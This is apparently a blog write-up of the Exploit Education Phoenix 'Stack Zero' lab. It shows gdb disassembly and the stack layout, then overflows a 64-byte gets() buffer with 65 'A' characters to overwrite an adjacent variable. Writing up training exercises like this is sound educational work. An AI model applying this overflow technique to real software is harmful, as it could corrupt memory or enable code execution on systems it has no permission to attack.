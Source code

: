 ```yaml
---
layout: post
title: Stack Zero Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Zero exercise stack-overflow vulnerability with learning resources.
comments: true
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Stack Zero exercise is based on stackoverflow memory corruption issue where you'll have to smash the stack to modify other variables in the stack to achieve code execution, execution flow redirection or behaviour in the program. Technically, `gets` function is unsafe that doesn't have bounds check basically, it accepts memory address to write but doesn't care about overwriting other declared variables in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int changeme` stays in main stackframe.

### Disassemble

Disassembling the code will get you overall idea behind the stack-zero code, One can use `gdb ./stack-zero` to start debugging it in runtime.

1. `gdb ./stack-zero`
2. Type `disassemble` to get the disassembled code (assembly)

```assembly
   0x00000000004005dd <+0>:     push   rbp
   0x00000000004005de <+1>:     mov    rbp,rsp
   0x00000000004005e1 <+4>:     sub    rsp,0x60
   0x00000000004005e5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004005e8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004005ec <+15>:    mov    edi,0x400680
   0x00000000004005f1 <+20>:    call   0x400440 <puts@plt>
   0x00000000004005f6 <+25>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004005fd <+32>:    lea    rax,[rbp-0x50]
   0x0000000000400601 <+36>:    mov    rdi,rax
   0x0000000000400604 <+39>:    call   0x400430 <gets@plt>
   0x0000000000400609 <+44>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040060c <+47>:    test   eax,eax
   0x000000000040060e <+49>:    je     0x40061c <main+63>
   0x0000000000400610 <+51>:    mov    edi,0x4006d0
   0x0000000000400615 <+56>:    call   0x400440 <puts@plt>
   0x000000000040061a <+61>:    jmp    0x400626 <main+73>
   0x000000000040061c <+63>:    mov    edi,0x400708
   0x0000000000400621 <+68>:    call   0x400440 <puts@plt>
   0x0000000000400626 <+73>:    mov    edi,0x0
   0x000000000040062b <+78>:    call   0x400450 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-zero using gdb to view the assembly instruction, you may notice the puts, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-zero, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Set `locals.changeme` variable to `zero` or `0x00` in hex
3. Get `locals.buffer` variable filled by `gets` function
4. Verify `locals.changeme` is not `zero` or `0x00` in hex
5. Use puts(aka Printf) method to greet the user again
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stackframe same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x60` as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-zero-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe610` and `locals.changeme` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.changeme`. If you playaround with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.changeme` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.changeme` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.changeme` variable succesfully, thus completing the challenge.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-zero-gdb.jpg)

```assembly

<FIRST TRY - 64 'A' character>

(gdb) r
Starting program: /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
[Inferior 1 (process 426) exited normally]

<SECOND TRY - 65 'A' character>

(gdb) r
Starting program: /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
[Inferior 1 (process 430) exited normally]

```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack Zero Exercise: [Exploit Education](https://exploit.education/phoenix/stack-zero/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
